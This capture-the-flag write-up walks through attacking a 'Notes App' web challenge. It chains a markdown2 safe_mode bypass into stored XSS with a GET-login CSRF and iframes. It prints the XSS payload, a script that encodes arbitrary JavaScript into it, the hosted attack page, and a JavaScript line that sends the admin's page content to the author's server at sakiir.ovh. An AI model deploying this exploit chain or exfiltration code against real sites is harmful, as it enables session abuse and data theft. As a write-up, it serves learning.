

# Notes App (Web, 488p)

For this task, a very simple Python application and its source code is provided.

[Sources](sources/)

## Analysis



The application let us register, login, submit a link and edit a single field "note" that will be displayed on `/profile`.

The application code is pretty straightforward and allows us to insert markdown on our own profile page.

The python code responsible for markdown rendering (md2html) is the following:

```python
@app.route("/update_notes", methods=["POST"])
@login_required
def update_notes():
    # markdown support!!
    current_user.notes = markdown2.markdown(request.form.get("notes"), safe_mode=True)
    db.session.commit()
    return redirect("/profile")
```

Looking in the `requirements.txt` shows us that this is the latest version of `markdown2`:

```
markdown2==2.3.8
```

However, I found this github issue: [github issue # 341](https://github.com/trentm/python-markdown2/issues/341)

A possible injection is demonstrated:

```markdown
<http://g<!s://q?<!-<[<script>alert(1);/\*](http://g)->a><http://g<!s://g.c?<!-<[a\\*/</script>alert(1);/\*](http://g)->a>
```

This will be rendered as:

```html
<p><http://g<!s://q?<!-&lt;<a href="http://g"><script>alert(1);/*</a>->a><http://g<!s://g.c?<!-&lt;<a href="http://g">a\\*/</script>alert(1);/*</a>->a></p>
```

Then, I tried that on my profile page and it worked.

This should be a good entry point to our exploitation steps.

## Exploitation

Having a working payload is cool, but remember that the payload is reflected on the `/profile` page so we are not going to be able to send this link to the admin.

By the way, the admin uses this code to access our page:

```python

async def main(url):
    browser = await launch(headless=True,
                           executablePath="/usr/bin/chromium-browser",
                           args=['--no-sandbox', '--disable-gpu'])
    page = await browser.newPage()
    await page.goto("https://notes.web.byteband.it/login")
    await page.type("input[name='username']", "admin")
    await page.type("input[name='password']", os.environ.get("ADMIN_PASS"))
    await asyncio.wait([
        page.click('button'),
        page.waitForNavigation(),
    ])
    await page.goto(url)
    await browser.close()
```

First, he authenticates himself on the application, and then access the URL provided.

Also, another important thing to notice is that the `/login` endpoint accepts GET and does not have any check on the HTTP verb used:

```python
@app.route("/login", methods=["GET", "POST"]) # Accepts GET and POST
def login():

    # Redirect the user if he is already authenticated.
    if current_user.is_authenticated:
        return redirect("/profile")

    if request.args.get("username"):
        id = request.args.get("username")
        password = request.args.get("password")
        user = User.query.filter_by(id=id).first()
        if user and user.check_password(password=password):
            login_user(user)
            return redirect("/profile")

        flash("Incorrect creds")
        return redirect("/login")
    return render_template("login.html")
```

So, here is our strategy:

Send to the admin, a page containing 3 iframes:

1. The first one will point to the `/profile` page
2. The second one will point to the `/logout` page after the first one rendered (Used to logout the admin before we access `/login` for the third one)
3. The third one will point to our profile `https://notes.web.byteband.it/login?username=SakiiR&password=SakiiR` and execute arbitrary Javascript

The third iframe is the most important and will retrieve information from the parent iframe pointing to `/profile` to retrieve the admin note.

Before triggering the admin on this custom hosted page, we have to host script on our profile page.

To do that, I used a simple script reading arbitrary Javascript and "converting" it into a markdown2 payload:

```python
#!/usr/bin/env python3
# @SakiiR

import base64
from urllib.parse import quote_plus as urlencode


def main():
    content = ""
    with open("payload.js", "rb") as f:
        content = base64.b64encode(f.read()).decode()
        f.close()

    payload = urlencode(content)
    print(
        f"%3Chttp%3A%2F%2Fg%3C%21s%3A%2F%2Fq%3F%3C%21-%3C%5B%3Cscript%3Eeval%28atob%28%27{payload}%27%29%29%3B%2F%5C*%5D%28http%3A%2F%2Fg%29-%3Ea%3E%3Chttp%3A%2F%2Fg%3C%21s%3A%2F%2Fg.c%3F%3C%21-%3C%5Ba%5C%5C*%2F%3C%2Fscript%3Eeval%28atob%28%27{payload}%27%29%29%3B%2F*%5D%28http%3A%2F%2Fg%29-%3Ea%3E"
    )


if __name__ == "__main__":
    main()
```

I also used this following Javascript file to retrieve the parent iframe content:

```js
let content = top.frames[0].document.documentElement.innerHTML;

content = btoa(content);
window.location.replace("http://sakiir.ovh:31337/?exfil=" + content);
```

The following HTML page has been hosted on `sakiir.ovh` to perform the iframe thing:

```html
<html>
  <head></head>
  <body>
    <iframe
      style="width: 100%;"
      id="aframe"
      src="https://notes.web.byteband.it/profile"
    ></iframe>
    <!-- First action, retrieve the admin /profile into the iframe -->

    <iframe style="width: 100%;" id="bframe" src=""></iframe>
    <iframe style="width: 100%;" id="cframe" src=""></iframe>

    <script>
      const a = document.getElementById("aframe");
      const b = document.getElementById("bframe");
      const c = document.getElementById("cframe");

      b.onload = () => {
        // Third action, login as me and get redirected on my own /profile containing Javascript retrieving the **aframe** content
        c.src =
          "https://notes.web.byteband.it/login?username=SakiiR4&password=test";
      };

      // Second action, logout the admin so that he can login as me
      a.onload = () => {
        b.src = "https://notes.web.byteband.it/logout";
      };
    </script>
  </body>
</html>
```

Everything's ready, we send the link to the admin via the `/visit_link` endpoint and get the flag:

```
flag{ch41n_tHy_3Xploits_t0_w1n}
```

- SakiiR
